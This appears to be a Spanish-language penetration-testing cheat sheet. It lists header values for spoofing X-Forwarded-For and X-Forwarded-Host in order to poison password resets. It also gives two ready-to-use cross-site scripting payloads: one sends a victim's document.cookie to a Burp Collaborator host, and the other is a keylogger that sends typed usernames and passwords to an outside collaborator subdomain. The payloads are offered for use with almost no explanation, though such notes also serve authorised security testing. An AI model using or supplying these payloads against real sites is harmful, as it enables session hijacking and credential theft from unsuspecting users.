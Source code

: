 Sustituir en las cabeceras de la petición
~~~bash
X-Forwarded-For: 2001:db8:85a3:8d3:1319:8a2e:370:7348

X-Forwarded-For: 203.0.113.195

X-Forwarded-For: 203.0.113.195, 70.41.3.18, 150.172.238.178

X-Forwarded-For: 127.0.0.1
~~~


Más información:
+ https://developer.mozilla.org/es/docs/Web/HTTP/Headers/X-Forwarded-For

### reset poisoning via middleware
#### X-Forwarded-Host

Sustituir en las cabeceras de la petición
~~~bash
X-Forwarded-Host: id42.example-cdn.com
~~~

Más información:
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host


## Exfiltrar información

~~~html
<script>
	fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
		method: 'POST',
		mode: 'no-cors',
		body:document.cookie
	});
</script>
~~~

## Keylogger en input
~~~html
<script>
	document.getElementsByName("password")[0].addEventListener('change',function(){
		console.log(this.value);
		the_username = document.getElementsByName("username")[0].value
		the_password = this.value;

		fetch('https://subdomain.burpcollaborator.net', {
			method: 'POST',
			mode: 'no-cors',
			body:the_username+"~"+the_password
		});
	});
</script>
~~~
